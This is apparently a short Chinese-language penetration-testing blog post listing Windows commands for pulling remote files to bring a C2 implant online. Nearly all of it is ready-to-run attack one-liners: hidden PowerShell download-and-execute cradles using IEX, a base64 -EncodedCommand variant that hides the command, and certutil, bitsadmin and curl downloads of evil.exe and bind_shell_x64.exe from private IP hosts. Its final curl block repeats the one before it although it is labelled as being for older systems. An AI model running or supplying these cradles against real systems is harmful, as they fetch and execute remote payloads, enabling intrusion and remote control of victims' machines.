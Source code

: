 ```yaml
---
title: Windows远程下载文件
date: 2025-10-04 14:14:02
permalink: /pages/windown/
categories:
  - 渗透
tags:
  - Windows
author: 
  name: the0n3
  link: https://the0n3.top
---
```


windows CMD 下载远程文件，上线C2

<!-- more -->

## PowerShell

下载到本地

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.1/evil.txt','evil.exe')
```

通过远程http请求内容，在内存里直接执行

```powershell
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.1/evil.txt'))"
```

base64编码解决可能存在的转义问题（UTF-16 Little Endian编码），PowerShell 的 -EncodedCommand 要求使用 UTF-16LE 编码再 Base64

```powershell
$command = "IEX ((New-Object Net.WebClient).DownloadString('http://192.168.1.1/evil.txt'))"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encoded = [Convert]::ToBase64String($bytes)
Write-Output $encoded
```

powershell直接执行base64编码的命令，解决可能存在的转义问题

```powershell
powershell -nop -w hidden -EncodedCommand <上面输出的base64>
```


## certutil


下载到当前目录

```bash
certutil -urlcache -split -f http://192.168.20.10/bind_shell_x64.exe bind_shell_x64.exe
```

## bitsadmin

```bash
bitsadmin /transfer jobName /download /priority high http://192.168.20.10/evil.exe evil.exe
```


## curl（win10及以上）

```bash
curl -o bind_shell_x64.exe http://192.168.20.10/bind_shell_x64.exe
```   
老系统不常见

```bash
curl -o bind_shell_x64.exe http://192.168.20.10/bind_shell_x64.exe
```